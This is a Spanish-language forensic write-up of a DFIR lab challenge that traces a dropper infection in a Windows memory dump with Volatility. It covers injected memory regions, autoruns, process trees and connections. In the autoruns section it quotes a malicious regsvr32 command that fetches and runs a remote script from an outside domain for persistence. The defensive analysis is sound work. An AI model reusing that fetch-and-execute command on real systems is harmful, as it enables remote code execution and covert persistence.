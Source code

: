 ```yaml
---
title: Reto DFIR 2 - Atenea CCN
layout: post
permalink: /writeups/DFIR/2025-01-15-atenea_dfir_2
date: 2025-01-15 19:12:49 +0100
categories: [Laboratorios, DFIR]
tags: [dfir, forensics, malware analysis, memory analysis, volatility]
---
```


## Recursos

[Enlace del fichero usado (Google Drive)](https://drive.google.com/file/d/1OgjS9MtPklkL-jeiZcoj9SLAs8mFcl41/view?usp=sharing)

## Contexto

### Información

Sospechamos que el volcado de memoria adjunto se corresponde con una máquina que ha
sido infectada de forma persistente por algún tipo de malware, posiblemente un dropper.
Nos gustaría identificar el dominio dañino utilizado por el mismo.

## Análisis de procesos

![Listado de procesos](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_191249_2025-01-15_20-12.png)
_Aquí podemos ver algunos procesos interesantes y algunas anomalías que iremos viendo más adelante_

### Identificando posibles inyecciones en los comandos

En volatility disponemos de un módulo para intentar detectar inyecciónes o comportamientos anómalos en los procesos de windows.

![Análisis de anomalías](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_192639_Peek_2025-01-15_20-26.gif)
_Podemos ver que encuentra posibles anomalías en los dos prodesos de Internet Explorer y en csrss_

### Análisis

En el proceso csrss.exe (PID 592):

-> Tiene una región de memoria con permisos PAGE_EXECUTE_READWRITE (que es sospechoso para csrss.exe)

-> Contiene código ensamblador que parece shellcode, con instrucciones como OUT y STD que son inusuales en código legítimo

En dos procesos de IEXPLORE.EXE (PIDs 1624 y 3728):

-> Ambos tienen regiones idénticas en la dirección 0x5fff0000
-> También con permisos PAGE_EXECUTE_READWRITE
-> Contienen la firma "dtrR" seguida de un patrón de bytes similar
-> El código ensamblador incluye un CALL FAR que podría ser usado para ejecución de código malicioso

## Análisis de autoruns

### Plugin autorun

[Github](https://github.com/Telindus-CSIRT/volatility3-autoruns/blob/main/autorun.py)

Una vez importado este plugin nos permite ver que ejecutables están configurados para ejecutarse al inicio del sistema lo que es normal en la forma de generar persistencia en un malware.

![Análisis de autoruns](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_193253_2025-01-15_20-32.png

### Análisis

La entrada más sospechosa es 

regsvr32 /u /s /i:http://wiki-read.com/info.txt scrobj.dll

Este comando en el autoruns es muy sospechoso porque:

-> Usa regsvr32 para desregistrar (/u) scrobj.dll
-> Intenta cargar un script desde una URL externa (http://wiki-read.com/info.txt)
-> Se ejecuta silenciosamente (/s)
-> Está configurado para ejecutarse automáticamente al inicio del sistema

![Análisis adicional de autoruns](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_193539_2025-01-15_20-35.png)

regsvr32 /s /n /i:U shell32

Este comando aparece dos veces como "_nltide_2" en RunOnce para diferentes usuarios.

Hasta ahora el posible vector inicial de infección parece ser la descarga y ejecución del script malicioso desde wiki-read.com mediante regsvr32, que es una técnica conocida de "Living off the Land" para evadir defensas.

### Correlación

Esto encaja con el hallazgo anterior:

-> El script malicioso probablemente fue descargado a través de Internet Explorer

-> Inyectó código en csrss.exe (un proceso crítico del sistema)

-> Los dos procesos de IE con la misma firma indican que el malware se replicó

## Relación con los procesos

![Árbol de procesos](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_194308_2025-01-15_20-43.png)

### Relación

Los procesos de Internet Explorer sospechosos (PIDs 1624 y 3728) son hijos de explorer.exe (PID 1868)

-> Esto es normal ya que IE se suele lanzar desde el explorador
-> Pero recordemos que ambos tienen la misma región de memoria maliciosa

Hay varios shells de cmd.exe abiertos (PIDs 3468, 300, 1080) también como hijos de explorer.exe

-> Esto podría indicar actividad de comando y control
-> Especialmente sospechoso tener múltiples shells abiertos

Hay dos instancias de explorer.exe (PIDs 1868 y 1608)

-> Una es hija de winlogon.exe (normal)
-> La otra (PID 1608) parece huérfana (su padre PID 1552 no existe)
-> Esta segunda instancia podría ser una persistencia del malware

El proceso regedit.exe (PID 2664) podría indicar modificaciones al registro

-> Esto coincide con las entradas de autoruns que encontramos antes

### Línea temporal

La línea temporal sugiere:

- 23:47: Se inicia el primer IE sospechoso (PID 1624)
- 23:49: Se modifican las entradas de autoruns (según el output anterior)
- 23:52: Se inicia el segundo IE sospechoso (PID 3728)

## Análisis de conexiónes

![Análisis de conexiones](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_195117_2025-01-15_20-50.png)

### Análisis

Los procesos de IE sospechosos tienen actividad de red:

-> PID 1624 usando UDP puerto 1031 en 127.0.0.1
-> PID 3728 usando UDP puerto 1035 en 127.0.0.1
-> Ambos procesos usan conexiones UDP locales, lo que es inusual para IE

Cronología interesante:

-> 23:47:13: Primera conexión del IE sospechoso (PID 1624)
-> 23:52:15: Segunda conexión del IE sospechoso (PID 3728)
-> Coincide con la timeline que vimos en el pstree

La comunicación UDP en localhost entre los procesos de IE es especialmente sospechosa y podría indicar:

- Comunicación entre componentes del malware
- Túnel C2 (Command & Control)
- Evasión de firewalls

## Análisis de URLs en memoria

### Datos del proceso 1624

Dado el timeline que hemos visto:

-> PID 1624 (primer IE) se inició a las 23:47:12
-> Las modificaciones del registro ocurrieron a las 23:49
-> PID 3728 (segundo IE) se inició después a las 23:52:15

El PID 1624 parece ser la infección inicial que desencadenó todo, así que es el mejor candidato para buscar la URL maliciosa.

![Volcado de memoria del proceso](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_195422_2025-01-15_20-54.png)
_Lo volcamos en un txt por si es mucho contenido_

![Análisis de URLs en memoria](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_200501_2025-01-15_21-04.png)